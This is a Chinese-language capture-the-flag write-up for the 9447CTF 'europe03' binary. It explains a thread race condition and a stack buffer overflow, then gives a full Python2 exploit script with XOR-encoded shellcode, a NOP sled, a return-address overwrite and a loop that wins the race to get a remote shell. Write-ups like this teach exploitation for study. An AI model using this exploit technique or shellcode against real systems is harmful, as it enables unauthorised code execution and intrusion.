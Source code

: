 ```yaml
---
layout: post
title: 9447CTF europe03 writeup
catagories: [ctf]
tags: [ctf, writeup, 9447ctf]
---
```


> 这是一个栈溢出漏洞

拿到程序以后，简单分析发现是一个多线程程序。一共开了三个线程。

主线程：

```
What would you like to do?
 1. Login
 2. Read the key (admin only)
 3. See the message
 4. Quit
 > 
```

主线程对`1、2、3、4`进行处理,startroutine尝试在主线程登录后，把全局变量用户名部分更改为相应的用户。
还有一个线程给startroutine里正在wait的条件变量，每隔一秒发送一次信号。

这首先是一个条件竞争的问题，如果主线程用guest的用户名和密码登录了，紧接给startroutine发一个信号，
startroutine停止等待，继续执行，会判断是否是guest登录，这一判断结果做为紧接着进两个strcpy的判断语句的条件。
但进strcpy需要再等一个信号量，这个信号量会由另一线程每隔一秒定时发送。这个过程如果收到另一个线程的信号量以后，
但我主线程又重新登录了一次，假如使用Admin进行登录了，那么接下来给全局变量赋的值就是admin了，而不是guest。

发现用户名的输入空间很长，貌似是5000,而在主线程使用`3. See the message`时，主线程会将用户名做一个异或0x20的动作，
然后把值赋给栈上的一个缓冲区，不幸的是栈上给这个缓冲区到ebp的长度只有`0x5ec`,远小于5000,这将会导致一个栈溢出的问题。

如何构造溢出又是一个问题，因为`ebp-0xc`这个值还有点用处，和已拷贝的username的长度是相同的，又因为它是放在缓冲区里的，
最终会异或0x20，所以我先将username的长度计算一下，并且异或0x20，同样，覆盖的返回地址，也需要异或0x20。

返回地址取什么？我们可以将shellcode的数据放到全局变量username里，它有5004字节长度。并且栈是可执行的。shellcode中注意避开回车符和0x00。

使用msfconsole里的`generate -b "\x00\x0a" -t python`生成

附利用代码：

```python
#!/usr/bin/env python2

from zio import *
import struct
import time

#local = True
local = False

if local:
    io = zio("./europe", timeout=9999)
else:
    io = zio(('europe.9447.plumbing', 9447), timeout=9999)

shellcode =  ""
shellcode += "\xbe\xe4\x90\x39\xc2\xda\xcf\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x0b\x83\xea\xfc\x31\x72\x11\x03\x72\x11\xe2"
shellcode += "\x11\xfa\x32\x9a\x40\xa9\x22\x72\x5f\x2d\x22\x65\xf7"
shellcode += "\x9e\x47\x02\x07\x89\x88\xb0\x6e\x27\x5e\xd7\x22\x5f"
shellcode += "\x68\x18\xc2\x9f\x46\x7a\xab\xf1\xb7\x09\x43\x0e\x9f"
shellcode += "\xbe\x1a\xef\xd2\xc1"

def xor20(input):
    retshell = ""
    for i in input:
        retshell += chr(ord(i)^0x20) 
    return retshell

print xor20(shellcode).encode("hex")

inti = 0x5ec - 0xc
i = struct.pack("I", inti)
print i.encode("hex")

retadd = struct.pack("I", 0x0804C9B0)
username = "admin" + "\x90"*(inti - len("admin") - len(shellcode)-0x100) + shellcode + "\x90"*0x100 + xor20(i)
username += "D" * (0x5ec - len(username)) + "BBBB" + xor20(retadd)

while True:
    io.read_until("> ")
    io.write("3\n")
    data = io.read_until("> ")
    if data.find("ADMIN") != -1:
        break
    io.write("1\n")
    io.read_until("Username: ")
    io.write("guest\n")
    io.read_until("Password: ")
    io.write("guest\n")
    io.read_until("> ")
    io.write("1\n")
    io.read_until("Username: ")
    io.write(username + "\n")
    time.sleep(1)
    io.read_until("Password: ")
    io.write("admin\n")
io.interact()
```

while循环是在抢条件竞争，抢到以后按`4`退出，即可触发shellcode，拿到shell.
